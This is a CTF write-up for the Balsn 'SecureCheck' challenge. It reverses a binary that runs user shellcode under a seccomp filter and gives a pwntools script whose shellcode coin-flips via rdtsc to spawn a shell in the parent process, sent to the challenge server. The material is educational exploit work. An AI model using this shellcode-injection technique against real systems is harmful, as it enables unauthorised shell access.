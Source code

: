 # SecureCheck

So what we have in this ctf task - just an application which called `nosyscal` and nothing more... So let's try to open it with radare/cutter to see what's inside.

## Overview

![overview](overview.png)

Just an elf64 binary with two functions which are relevant `main` and `instal_syscall_filter`. Let's see what's inside `main` with decompiler's help :

## main
```c
undefined8 main(void)  
{  
	int32_t iVar1;  
	undefined8 uVar2;  
	int64_t in_FS_OFFSET;  
	int32_t iStack36;  
	code *pcStack32;  
	code *UNRECOVERED_JUMPTABLE;  
	int64_t iStack16;  
	  
	iStack16 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	pcStack32 = (code *)sym.imp.mmap(0, 0x1000, 7, 0x22, 0xffffffff, 0);  
	sym.imp.read(0, pcStack32, 0x1000);  
	UNRECOVERED_JUMPTABLE = pcStack32;  
	iVar1 = sym.imp.fork();  
	if (iVar1 == 0) {  
		sym.install_syscall_filter();  
	} else {  
		sym.imp.wait(&iStack36);  
		if (iStack36 != 0) {
			uVar2 = 0;  
			if (iStack16 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
					uVar2 = sym.imp.__stack_chk_fail();  
			}  
			return uVar2;
		}
	}
	// WARNING: Could not recover jumptable at 0x00000a20. Too many branches  
	// WARNING: Treating indirect jump as call  
	uVar2 = (*UNRECOVERED_JUMPTABLE)(0, 0, UNRECOVERED_JUMPTABLE, 0, 0, 0);  
	return uVar2;  
}
```
From first view seems like `shellcode` task which gets the input, put it in the mmap and runs in both processes if child successfully exit.
Also noticed that all regs are xored also in the `main`.
~~~~
0x000009f6      xor     rbx, rbx
0x000009f9      xor     rcx, rcx
0x000009fc      xor     rdi, rdi
0x000009ff      xor     rsi, rsi
0x00000a02      xor     rsp, rsp
0x00000a05      xor     rbp, rbp
0x00000a08      xor     r8, r8
0x00000a0b      xor     r9, r9
0x00000a0e      xor     r10, r10
0x00000a11      xor     r11, r11
0x00000a14      xor     r12, r12
0x00000a17      xor     r13, r13
0x00000a1a      xor     r14, r14
0x00000a1d      xor     r15, r15
~~~~

But what's happening inside `install_syscall_filter`?

## install_syscall_filter
```c
undefined8 sym.install_syscall_filter(void)  
{  
	int64_t iVar1;  
	int32_t iVar2;  
	undefined8 uVar3;  
	int64_t in_FS_OFFSET;  
	uint32_t v3;  
	int32_t var_58h;  
	int32_t var_50h;  
	int32_t var_48h;  
	int32_t var_40h;  
	int32_t var_38h;  
	int32_t var_30h;  
	int32_t var_28h;  
	int32_t var_20h;  
	int32_t var_18h;  
	int32_t var_10h;  
	int32_t canary;  
	  
	iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	v3._0_2_ = 9;  
	iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);  
	if (iVar2 == 0) {  
		iVar2 = sym.imp.prctl(0x16, 2, &v3);  
	if (iVar2 == 0) {  
		uVar3 = 0;  
	goto code_r0x0000096b;  
	}  
		sym.imp.perror(0xaf8);  
	} else {  
		sym.imp.perror(0xae4);  
	}  
	uVar3 = 1;  
	code_r0x0000096b:  
	if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
		uVar3 = sym.imp.__stack_chk_fail();  
	}  
	return uVar3;  
}
```
`prctl` calls with some variables and all `vars_*` on stack are not relevant from radare's opinion, heh.  Those  identifiers (0x16/PR_SET_SECCOMP, 0x26/PR_SET_NO_NEW_PRIVS) points out on some `seccomp` application filtering, interesting. Need to find out then what's coming as `v3`, there is only size of `v3` is pointed out but where is the data?

![install_syscall_filter variables](stack.png)

Seems like radare2 not smart enough about variables in decompile section :) What is that? Oh wait, seems like `sock_filter` structures.
~~~~
{0x20, 0, 0, 4}
{0x15, 1, 0, 0xc000003e}
{0x6, 0, 0, 0}
{0x20, 0, 0, 0}
{0x15, 0, 1, 0x3c}
{0x6, 0, 0, 0x7fff0000}
{0x15, 0, 1, 0xe7}
{0x6, 0, 0, 0x7fff0000}
{0x6, 0, 0, 0}
~~~~
Let's disassemble with `bpf_dbg` and see what the rules are on:
~~~~
l0: ld [4] 
l1: jeq #0xc000003e, l3, l2 
l2: ret #0 
l3: ld [0] 
l4: jeq #0x3c, l5, l6
l5: ret #0x7fff0000 
l6: jeq #0xe7, l7, l8 
l7: ret #0x7fff0000 
l8: ret #0
~~~~
Hm, interesting,
 - 0x3e/62 - kill
 - 0x3c/60 - exit
 - 0xe7/231 - exit group

So we're able to use only exit/exit group calls, otherwise we will be killed.
What should we do in this case?

## Solution

After some discussion we decide to `exit` from child and run `shell` on parent with shellcode because parent will not be affected by child's limitations with `prctl`. But how we do know where we are in child or in parent? Let's coin flip and decide from it, of course it will not happen from first attempt but it should after some time. `rdtsc` will do the coin flip magic... Let's code with pwntools :
```python
#!/usr/bin/env python3  
from pwn import *  
  
context.arch = 'amd64'  
shellsource = \  
		' rdtsc\n' + \  
		' test rax, 0x100\n' + \  
		' lea rsp, [rest + rip]\n' + \  
		' jz exit0\n' + \  
		shellcraft.amd64.linux.sh() + \  
		'exit0:\n' + \  
		shellcraft.amd64.linux.exit(0) + \  
		' .skip 512\n' + \  
		'rest:\n'  
  
print(shellsource)  
shellcode = asm(shellsource)  
p = remote('securecheck.balsnctf.com', 54321)  
p.send(shellcode)  
p.interactive()
```
After some attempts as expected we got the flag, hurray!

*Balsn{Sam3_Cod3_Same_Cont3xt_Diff3r3nt_World}*

